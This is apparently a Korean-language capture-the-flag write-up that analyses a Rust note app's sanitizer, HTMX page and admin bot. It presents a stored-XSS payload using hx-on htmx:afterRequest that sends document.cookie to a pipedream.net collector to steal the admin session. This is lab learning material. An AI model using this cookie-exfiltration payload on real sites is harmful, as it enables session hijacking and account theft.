




# write-up

### src/main.rs

```rust
async fn get_note(
    Path(note): Path<String>,
    TypedHeader(cookie): TypedHeader<Cookie>,
) -> Result<Html<String>, (StatusCode, &'static str)> {
    // path = flag
    if &note == "flag" {
        let Some(name) = cookie.get("session") else {
            return Err((StatusCode::UNAUTHORIZED, "Missing session cookie"));
        };
        // must get the admin session 
        if name != std::env::var("ADMIN_SESSION").expect("Missing ADMIN_SESSION") {
            return Err((
                StatusCode::UNAUTHORIZED,
                "You are not allowed to read this note",
            ));
        }
        return Ok(Html(fs::read_to_string("flag.txt").expect("Flag missing")));
    }
    if note.chars().any(|c| !c.is_ascii_hexdigit()) {
        return Err((StatusCode::BAD_REQUEST, "Malformed note ID"));
    }
    let Ok(note) = fs::read_to_string(format!("public/upload/{:}", note)) else {
        return Err((StatusCode::NOT_FOUND, "Note not found"));
    };
    Ok(Html(note))
}
```    
      
FLAG 획득을 위해 `ADMIN_SESSION` 값을 알아내야한다. XSS 공격 혹은 LFI로 `/proc/self/environ`를 읽어 값을 알아내는 방식으로 보인다.        

```rust
async fn upload_note(
    mut multipart: Multipart,
) -> (StatusCode, Result<HeaderMap<HeaderValue>, &'static str>) {
    let mut body: Option<String> = None;

    // check until the body of packet is showed
    while let Some(field) = multipart.next_field().await.unwrap() {
        let Some(name) = field.name() else { continue };
        if name != "note" {
            continue;
        }
        let Ok(data) = field.text().await else {
            continue;
        };
        body = Some(data);
        break;
    }
    let Some(body) = body else {
        return (StatusCode::BAD_REQUEST, Err("Malformed formdata"));
    };
    if body.len() > 5000 {
        return (StatusCode::PAYLOAD_TOO_LARGE, Err("Note too big"));
    }

    // use h1, p, div, hx- 
    let safe = ammonia::Builder::new()
        .tags(hashset!["h1", "p", "div"])
        .add_generic_attribute_prefixes(&["hx-"])
        .clean(&body)
        .to_string();
    let mut name = [0u8; 32];
    // random name generation
    fs::File::open("/dev/urandom")
        .unwrap()
        .read_exact(&mut name) // generate randomly name
        .expect("Failed to read urandom");
    let name = String::from_iter(name.map(|c| format!("{:02x}", c)));
    // after filtering, write
    fs::write(format!("public/upload/{:}", name), safe).expect("Failed to write note");
    (
        StatusCode::FOUND,
        Ok(HeaderMap::from_iter([(
            LOCATION,
            format!("/note/{:}", name).parse().unwrap(),
        )])),
    )
}
```
     
`upload_note` 함수는 유저에 의해 입력된 body 값을 `body` 변수에 저장한 후, XSS 공격 방지를 위해 `ammonia`를 사용하여 태그(h1, p, div) 및 속성(hx-)만 사용 가능하도록 제한하고 있다.      
      
이후, `/dev/urandom`에서 랜덤 값을 가져와 16진수로 구성된 랜덤 값을 파일 명으로 사용하여 업로드를 진행한다.       

파일 명을 조작할 수 없는 상태이기에 Path Traversal를 통해 LFI는 불가능하고, `ammonia`의 `.add_generic_attribute_prefixes(&["hx-"])` 부분이 눈에 들어왔다. 그래서, HTML에 hx-를 사용하고 있는 부분이 있는지 살펴보았다.   
     
## public/note.html    
```html
<html>
    <head>
        <script src="https://unpkg.com/htmx.org@1.9.5" integrity="sha384-xcuj3WpfgjlKF+FXhSQFQ0ZNr39ln+hwjN3npfM9VBnUskLolQAcN80McRIVOPuO" crossorigin="anonymous"></script>
        <!-- SKIP --> 
    </head>
    <body>
        <!-- SKIP --> 
        <div 
            class="note-body glow-red note-body-loading" 
            hx-get="/api/note/" 
            hx-on::config-request="event.detail.path += window.location.pathname.split('/').pop()"
            hx-on::after-swap="let l = event.detail.target;
            l.parentNode.classList.add('note-body-done', 'glow-green');
            l.parentNode.classList.remove('note-body-loading', 'glow-red'); 
            "
            hx-trigger="load delay:0.001s"
            hx-target="find #content"
            >
        <div id="content"></div>
        <!-- SKIP --> 
    </body>
</html>
```      
     
`note.html`에서 HTMX 라이브러리를 사용하여 Note의 Content 내용을 가져오는 로직이 있었다. 이를 활용해 XSS 공격을 수행하면 될 것 같았다.   

```rust
async fn take_report(Form(report): Form<Report>) -> Result<String, (StatusCode, &'static str)> {
    // No filter params(link and captcha)
    let params = [("link", report.link), ("recaptcha", report.captcha)];
    let client = reqwest::Client::new();
    let res = client
        .post(format!(
            "http://{:}",
            std::env::var("BOT_HOST").expect("Missing BOT_HOST")
        ))
        .form(&params)
        .send()
        .await
        .expect("Can't request bot");
    if res.status() != StatusCode::OK {
        return Err((StatusCode::BAD_REQUEST, "Report failed"));
    }
    Ok(
        std::fs::read_to_string("public/static/fragment/report_success.html")
            .expect("Missing fragment"),
    )
}
```
      
추가적으로, `take_report` 함수에서 봇을 이용하여 유저가 입력한 `link`에 접속하는 코드가 존재해서 HTMX를 사용하여 XSS 공격을 수행하는 것이 올바른 방식임을 확신할 수 있었다. 
    
```html
<div hx-get="/note/1577d24c9046fa52eeb59b0b7806336d40cab5464ca601312cee840f54ed7132" hx-trigger="load delay:1s" hx-target="closest div"></div>
<div></div>
```    
     
`hx-get`을 통해 GET 요청을 날리고 받은 결과 값이 인접한 `<div>` 태그에 반영되는지 확인해보았다.
     

     
`<div id="content">` 안에 결과 값이 잘 들어가는 것이 확인되었다. 다음으로, `hx-get` 속성 값에 `<div hx-get="fetch('https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie)" hx-trigger="load delay:1s" hx-target="closest div"></div><div></div>`를 넣어 실행해봤지만 요청이 수행되지 않았다.     
     
`BurpSuite Proxy`를 사용해서 Request를 살펴봤을 때, `GET /note/fetch('https://enbjsc6lizc3g.x.pipedream.net/?d=%27+document.cookie)56445d0ed2630d386f3f33a1d46224ade75d071f701de79cd67eec9c5d18f01256445d0ed2630d386f3f33a1d46224ade75d071f701de79cd67eec9c5d18f012 HTTP/2` 요청을 보내 fetch() 이후 note 이름이 합쳐져 올바르지 않은 경로로 접근하여 실행되지 않는 것을 확인했다. 여기서 외부 사이트에 요청을 보내는 방법을 찾지 못해 삽질을 많이해서 대회 당시에 문제를 풀지 못했다.    
       
https://htmx.org/events/
`
Event - htmx:afterRequest
This event is triggered after an AJAX request has finished either in the case of a successful request (although one that may have returned a remote error code such as a 404) or in a network error situation. This event can be paired with htmx:beforeRequest to wrap behavior around a request cycle.
`
대회가 끝나고, write-up을 보니 `htmx:afterRequest`를 사용한 풀이가 있었다. `htmx:afterRequest`는 AJAX 요청 이후 Request를 한 번 더 전송하는 속성으로 Payload는 아래와 같았다.     
      
```html
<div hx-get="/api/note/01fe5e3e71de0713da71533027bf0e267e6661f8fba78e04711521a28577285c" hx-trigger="load" hx-target="this" hx-on="htmx:afterRequest: fetch('https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie)"></div>
```   

거의 다 왔는데 `hx-get` 요청 이후 `htmx:afterRequest`가 수행되며 쿠키 값을 전달한다. 즉, 위 내용을 Note의 입력 값으로 전달하고 Report를 통해 adminbot이 읽게 하면 아래와 같이 세션을 탈취할 수 있게 된다. 
     
     

얻은 세션 값을 쿠키에 넣어주고 `/note/flag`에 접근해주면 된다. 
           
        
       
`/note/flag`에 접근해주면 FLAG 값이 잘 보이는 것을 확인할 수 있다.    
      



